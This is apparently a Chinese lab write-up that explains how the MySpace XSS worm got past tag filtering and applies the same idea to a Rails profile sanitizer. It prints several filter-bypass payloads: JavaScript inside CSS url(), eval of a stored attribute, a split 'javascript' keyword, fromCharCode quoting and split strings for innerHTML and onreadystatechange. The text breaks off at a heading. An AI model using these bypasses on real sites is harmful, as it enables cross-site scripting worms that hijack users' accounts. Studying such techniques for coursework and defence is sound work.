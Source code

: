 下面从技术层面上介绍一下 MySpace 蠕虫病毒：

- MySpace 拦截了大量的 tags，仅仅允许 `<a>, <img>s, and <div>s...`，不允许 `<script>s, <body>s, onClicks, onAnythings, href's with javascript, etc...`。然而，一些浏览器（IE, some versions of Safari, others）允许 CSS 标签中有 javascript 代码。比如

  ```html
  <div style="background:url('javascript:alert(1)')">
  ```

- 这样的话，不能在 div 标签中使用 `"` ，因为已经使用过了 `'` 和 `"`，为了解决这个问题，用一个表达式储存 JS 然后用名字执行。比如：

  ```html
  <div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
  ```

- 现在可以用单引号写 JS 代码了。然而 MySpace 会从任何地方删除 javascirpt 字符串，一些浏览器会将 `java\nscript` 解析为 `javascript`，比如：

  ```html
  <div id="mycode" expr="alert('hah!')" style="background:url('java
  script:eval(document.all.mycode.expr)')">
  ```

- 尽管可以使用单引号，有时也需要使用双引号。只需要将双引号转义即可，但是 MySpace 会删除所有转义字符，那么可以将十进制转换为 ASCII 码用来产生双引号。比如：

  ```html
  <div id="mycode" expr="alert('double quote: ' + String.fromCharCode(34))" style="background:url('java
  script:eval(document.all.mycode.expr)')">
  ```

- 为了向正在查看网页的用户发送代码，需要获取网页的源代码。可以使用 `document.body.innerHTML` 获取网页源代码。MySpace 会删除 innerHTML 单词，可以通过分割字符串的方法绕过这一点，比如：

  ```html
  alert(eval('document.body.inne' + 'rHTML'));
  ```

- 现在来访问其他页面，可以使用 iframe，但是 iframe 通常来说没有那么有用并且加载过于明显。所以使用 ajax(xml-http)来进行 GETs 和 POSTs 请求，然而，MySpace 会删除 onreadystatechange，同样的可以使用分割字符串绕过，比如：

  ```html
  eval('xmlhttp.onread' + 'ystatechange = callback');
  ```

- 等等，后续的内容对本任务没有那么重要。

 ### 攻击原理

受 MySpace 漏洞的启发，可以使用 CSS 标签内嵌 JS 代码的方式绕过 Rails 的标签过滤。

回顾一下允许的标签和属性：

```ruby
 def sanitize_profile(profile)
    return sanitize(profile, tags: %w(a br b h1 h2 h3 h4 i img li ol p strong table tr td th u ul em span), attributes: %w(id class href colspan rowspan src align valign))
  end
```

官方文档：
